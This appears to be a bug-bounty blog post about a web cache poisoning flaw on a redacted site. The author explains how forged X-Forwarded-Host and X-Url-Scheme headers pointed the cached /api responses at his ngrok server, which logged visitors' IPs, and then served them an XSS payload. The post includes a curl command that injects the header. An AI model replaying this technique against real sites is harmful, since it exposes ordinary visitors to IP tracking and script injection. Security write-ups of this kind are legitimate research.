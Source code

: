```yaml
---
layout: post
published: true
title: Web Cache Poisioing To SSRF and XSS
tags:
    - bug hunting
    - ssrf
    
comments: true

---
```


# Introduction
I don't waste time by talking about myself ...i gonna share my experience of a bug "web cache poisioning" in bug bounty 
as usually i was pentesting on private sites i saw there my <a href="https://github.com/PortSwigger/param-miner">paraminer</a> shows an unkeyed url
with secret url Before exploiting part i wanna share my thoughts about tha bug called cache poisiong :

**web cache poisiong: This is a technique by which we can poision the whole web page by sending malicious request with unkeyed (that cache ignores) 
headers and urls that leads to defacement,xss,ssrf and other causes** web cache poising is diffrent from web cache poisiong the common thing among
them is cache 

so i was pentesting on private site  saw there an api like 

"https://redacted.net/api/" [it shows all website url's with path]

i send this request to repeater and added an header "x-Forwarded-For : example.com"  i was shocked the url which was used in website [/api endpoint] got replaced by mine
url example.com [due to x-forward header] suddenly i open ngrok and copied the url and added in x-forwarded header and boom  i got incoming request in my terminal with
some private ip of company but that was not high criteria bug so i tried further i addded cachebuster query to the end of url like "https://redacted.net/api?mohit=1234" and 
with the help of curl command it looks like this:

~~~
curl -i -s -k -X $'GET' -H $'Host: redaccted.net' -H $'Accept-Encoding: gzip, deflate' -H $'Accept: /' -H 
$'Accept-Language: en' -H $'User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)' -H 
$'x-forwarded-host: [my ngrok url] -H $'Connection: close' $'https://www.redacted.net?mohit=1234> /dev/null
~~~

it was not working after lot of trying and resarching i added another header "X-Url-Scehme: nohttps" after that i tried so many times cache:miss
but i continouly send request and finally it shows cache: hit means my cache got stored then i visited "https://redacted.net/api?mohit=1234" i saw my incoming request in my
terminal i tried from my phone on another wifi connection i still get incoming connectin means i successfully posiones the web anyone can visit the webpage "https://redacted.net/api?mohit=1234" i grab his ip :P  still i was not satisfied i tried to do xss but failed because of waf :( 

so i tried a diffrented method i created a web page on my website [not mine sad lyf] in which i created 10 raws of json and hide a xss paload in that rows then with the help of
web cache posiong i tried to fetch that webpage and it gotta hit in few attempts and when i visited the ur it shows popup whoo i go xsss ...means ay user that vist on my url got 
popup of "you are hacked run away" another one was defacement but defacinement is shit that's why i leave it and reported xss,sssrf and web cache poisiong :( 

any queries related to article contact on :

facebook : <a href="https://www.facebook.com/mohit20000">mohit</a>

any private programs??

send it on: <a href="mailto:nhibtaungamain@gmail.com">mohit@_@</a>
